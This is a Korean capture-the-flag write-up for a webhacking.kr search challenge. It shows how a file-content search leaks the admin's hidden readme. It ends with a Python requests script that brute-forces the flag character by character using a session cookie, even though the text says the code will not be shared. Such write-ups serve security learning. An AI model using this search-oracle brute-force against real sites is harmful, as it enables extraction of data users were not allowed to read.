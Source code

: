 <img width="289" alt="스크린샷 2020-01-07 오후 11 57 08" src="https://user-images.githubusercontent.com/54495632/71904528-a2df5200-31a9-11ea-9950-606fc457c3df.png">

56번

<img width="471" alt="스크린샷 2020-01-07 오후 11 57 20" src="https://user-images.githubusercontent.com/54495632/71904556-b4285e80-31a9-11ea-8868-783937c8d247.png">

db 구조인 것 같다 . 우선 readme 와 hi~ 를 눌러보았다.

<img width="216" alt="스크린샷 2020-01-07 오후 11 57 35" src="https://user-images.githubusercontent.com/54495632/71904599-c7d3c500-31a9-11ea-9a36-345cde8c0fe6.png">

readme 권한을 얻어 열어봐야되는 문제인 것 같다.

접근을 거부 당했다.

<img width="162" alt="스크린샷 2020-01-07 오후 11 58 36" src="https://user-images.githubusercontent.com/54495632/71904636-d7530e00-31a9-11ea-9d25-958f6d8ad85f.png">

hi~ 는 딱히 별게 없었다.

이제 search 에 여러 검색어를 입력해보았다.

<img width="452" alt="스크린샷 2020-01-08 오전 12 48 42" src="https://user-images.githubusercontent.com/54495632/71908097-b8a44580-31b0-11ea-9788-274aac71fa9b.png">

<img width="444" alt="스크린샷 2020-01-08 오전 12 48 51" src="https://user-images.githubusercontent.com/54495632/71908102-bb9f3600-31b0-11ea-94e8-fc33e034f6c2.png">

<img width="504" alt="스크린샷 2020-01-08 오전 12 48 57" src="https://user-images.githubusercontent.com/54495632/71908115-bfcb5380-31b0-11ea-8bee-218f696d5f1a.png">

입력과 결과 값을 여러 번 반복하다 보니 해당 search 는 파일안의 내용에 따라 검색 되는 것 같다.

아까 위에서 hi~ 파일을 읽었을 때 hello~ 라는 문장이 나왔는데 search 로 hello~ 라고 검색하니

예상과 같이 guest hi~ 파일만 검색결과로 나타났다.

<img width="445" alt="스크린샷 2020-01-08 오전 12 59 03" src="https://user-images.githubusercontent.com/54495632/71908855-1edd9800-31b2-11ea-93aa-1354eac630e8.png">

혹시나 싶어 검색어로 FLAG 를 입력하니 

<img width="480" alt="스크린샷 2020-01-08 오전 1 00 01" src="https://user-images.githubusercontent.com/54495632/71908916-374db280-31b2-11ea-8807-b175c261fe2a.png">

다음과 같이 admin 의 readme 파일만 예상대로 나왔다.

이제 한글자 한글자 씩 비교하며 FLAG 값을 찾아야되는데 파이썬의 request를 이용하였다.

<img width="554" alt="스크린샷 2020-01-08 오전 1 24 27" src="https://user-images.githubusercontent.com/54495632/71910738-d32ced80-31b5-11ea-819c-90a26b469dd4.png">

FLAG 값을 파이썬을 이용하여 구하였다. 코드는 제공하기 싫다.

<img width="346" alt="스크린샷 2020-01-08 오전 1 24 42" src="https://user-images.githubusercontent.com/54495632/71910777-e3dd6380-31b5-11ea-92d2-00a1e67673e4.png">

<img width="401" alt="스크린샷 2020-01-08 오전 1 24 46" src="https://user-images.githubusercontent.com/54495632/71910784-e8a21780-31b5-11ea-9648-9a6287dceb69.png">


import requests

cookies={'PHPSESSID':'ㄴㅓ의 쿠키 값'}
url="https://webhacking.kr/challenge/web-33/index.php"
flag="flag{"
data={'search':""}

for i in range(0,100):
    for j in range(38,127):

        data['search']=flag+chr(j)

        res=requests.post(url,cookies=cookies,data=data)
        if((res.text).find("admin")>0):
            flag+=chr(j)
            print ("flag :"+flag)
            break

print ("finish flag :"+flag)
